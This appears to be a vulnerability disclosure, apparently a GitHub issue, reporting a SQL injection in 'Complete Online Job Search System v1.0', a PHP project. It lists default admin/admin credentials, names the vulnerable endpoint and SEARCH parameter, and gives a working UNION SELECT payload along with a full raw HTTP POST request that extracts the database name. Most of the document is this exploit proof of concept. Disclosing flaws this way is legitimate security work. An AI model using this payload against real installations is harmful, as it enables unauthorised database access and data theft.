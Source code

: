 # Complete Online Job Search System v1.0 has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/index.php?q=result&searchfor=byfunction

Vulnerability location: /eris/index.php?q=result&searchfor=byfunction,SEARCH

Current database name: erisdb

[+] Payload: SEARCH=9890') union select 1,2,3,database(),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19--+&CATEGORY=&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2 // Leak place ---> SEARCH

```sql
POST /eris/index.php?q=result&searchfor=byfunction HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 140

SEARCH=9890') union select 1,2,3,database(),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19--+&CATEGORY=&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

![image](https://user-images.githubusercontent.com/54017627/170849313-4d07d322-e01d-48fc-911e-7900f3a49463.png)

![image](https://user-images.githubusercontent.com/54017627/170849323-e8d744e2-4a70-4d9e-901a-524f48cdf493.png)
